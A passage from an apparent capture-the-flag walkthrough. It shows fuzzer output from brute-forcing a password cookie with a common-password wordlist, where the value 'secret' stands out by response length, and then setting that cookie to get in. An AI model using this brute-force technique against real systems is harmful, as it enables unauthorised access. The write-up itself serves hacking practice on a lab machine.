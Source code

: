 ```
000013:  C=200     14 L       29 W      324 Ch    "clustadm"
000014:  C=200     14 L       29 W      324 Ch    "cluster"
000015:  C=200     14 L       29 W      324 Ch    "compaq"
000016:  C=200     14 L       29 W      324 Ch    "default"
000017:  C=200     14 L       29 W      324 Ch    "dell"
000018:  C=200     14 L       29 W      324 Ch    "dmz"
000019:  C=200     14 L       29 W      324 Ch    "domino"
000020:  C=200     14 L       29 W      324 Ch    "exchadm"
000021:  C=200     14 L       29 W      324 Ch    "exchange"
000022:  C=200     14 L       29 W      324 Ch    "ftp"
000023:  C=200     14 L       29 W      324 Ch    "gateway"
000024:  C=200     14 L       29 W      324 Ch    "guest"
000025:  C=200     14 L       29 W      324 Ch    "lotus"
000026:  C=200     14 L       29 W      324 Ch    "money"
000027:  C=200     14 L       29 W      324 Ch    "notes"
000028:  C=200     14 L       29 W      324 Ch    "office"
000029:  C=200     14 L       29 W      324 Ch    "oracle"
000030:  C=200     14 L       29 W      324 Ch    "pass"
000031:  C=200     14 L       29 W      324 Ch    "password"
000032:  C=200     14 L       29 W      324 Ch    "password!"
000033:  C=200     14 L       29 W      324 Ch    "password1"
000034:  C=200     14 L       29 W      324 Ch    "print"
000035:  C=200     14 L       29 W      324 Ch    "qwerty"
000036:  C=200     14 L       29 W      324 Ch    "replicate"
000037:  C=200     14 L       29 W      324 Ch    "seagate"
000038:  C=200     21 L       48 W      540 Ch    "secret"
000039:  C=200     14 L       29 W      324 Ch    "sql"
000040:  C=200     14 L       29 W      324 Ch    "sqlexec"
000041:  C=200     14 L       29 W      324 Ch    "temp"
000042:  C=200     14 L       29 W      324 Ch    "temp!"
000043:  C=200     14 L       29 W      324 Ch    "temp123"
000044:  C=200     14 L       29 W      324 Ch    "test"
000045:  C=200     14 L       29 W      324 Ch    "test!"
000046:  C=200     14 L       29 W      324 Ch    "test123"
000047:  C=200     14 L       29 W      324 Ch    "tivoli"
000048:  C=200     14 L       29 W      324 Ch    "veritas"
000049:  C=200     14 L       29 W      324 Ch    "virus"
000050:  C=200     14 L       29 W      324 Ch    "web"
000051:  C=200     14 L       29 W      324 Ch    "www"
000052:  C=200     14 L       29 W      324 Ch    "KKKKKKK"
 
Total time: 1.674304
Processed Requests: 52
Filtered Requests: 0
Requests/sec.: 31.05768
```

Once again we get a hit! "secret" gives us a different result to all the other values. Back in our browser we use the extension Cookie Quick Manager (Or any cookie editing tool) to add the `password=secret` cookie to the Dab IP:

